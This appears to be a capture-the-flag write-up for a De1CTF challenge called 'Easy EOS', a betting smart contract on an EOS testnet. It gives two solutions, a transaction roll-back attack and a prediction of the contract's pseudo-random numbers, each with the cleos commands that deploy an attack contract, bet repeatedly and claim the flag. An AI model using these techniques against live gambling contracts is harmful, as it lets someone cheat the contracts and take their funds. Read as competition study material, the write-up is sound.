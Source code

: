 [中文](./README_zh.md) [English](./README.md)
>  Congratulations to Whitzard、$wagger、NoSugar、AAA for winning the game.

## Problem

Title: Easy EOS

Author: Gaia

Description:

```shell
Try to win this game.
account: de1ctf111eos
EOS Jungle2.0 Testnet
You need to win at least 10 times.
You can ask for a flag with the sendmail function. (username: your account, address: your email address)

hint for [Easy EOS]: the num of bet action is in range 0-4. Decompilation is optional.
hint for [Easy EOS]: if you lost，you can't bet anymore with this account.
```



## Answer

### Answer one ：*Roll Back* Attack

After observing, we found that the bet action completed the guessing number game in one transaction. If it wins, the number of wins in the users table plus 1; if lost, the number of lost in the users table plus 1.

By deploying contracts, we can use the "inline action" method to make guess numbers and judgments. The first action is to guess the number, and the second action is to judge whether we win or not. If we win, pass; if we lose, throw an exception and roll back the entire transaction.

The way to attack

```shell
# set permissions
cleos set account permission gllrgjlqclkp active '{"threshold": 1,"keys": [{"key": "EOS7fyKcyPhP5P4S5xXqLzYEFg5bYuYRvxzsX3UJ5W7vAxvXtgYAU","weight": 1}],"accounts":[{"permission":{"actor":"gllrgjlqclkp","permission":"eosio.code"},"weight":1}]}' owner -p gllrgjlqclkp@owner
# Compile contract
cd attack
eosio-cpp -o attack.wasm attack.cpp
# Deploy contract
cleos set contract gllrgjlqclkp . -p gllrgjlqclkp@active
# Call the makebet method multiple times until the number of account wins is greater than or equal to 10
cleos push action gllrgjlqclkp makebet '[]' -p gllrgjlqclkp@active
# Ask for a flag
cleos push action de1ctftest11 sendmail '["gllrgjlqclkp", "xxxx@qq.com"]' -p gllrgjlqclkp@active
```

### Answer two ：Pseudo random number

Decompile the contract, get the algorithm that generates the pseudo-random number, deploy the corresponding contract. In a transaction, calculate the random number to be generated, and then use the random number to call the bet action of the target contract.

The way to attack

```shell
# set permissions
cleos set account permission btdaciaibmfp active '{"threshold": 1,"keys": [{"key": "EOS7fyKcyPhP5P4S5xXqLzYEFg5bYuYRvxzsX3UJ5W7vAxvXtgYAU","weight": 1}],"accounts":[{"permission":{"actor":"btdaciaibmfp","permission":"eosio.code"},"weight":1}]}' owner -p btdaciaibmfp@owner
# Compile contract
cd attack4
eosio-cpp -o attack4.wasm attack4.cpp
# Deploy contract
cleos set contract btdaciaibmfp . -p btdaciaibmfp@active
# Call makebet method 10 times
cleos push action btdaciaibmfp makebet '[]' -p btdaciaibmfp@active
# Ask for a flag
cleos push action de1ctftest11 sendmail '["btdaciaibmfp", "xxxxxx@gmail.com"]' -p btdaciaibmfp@active
```





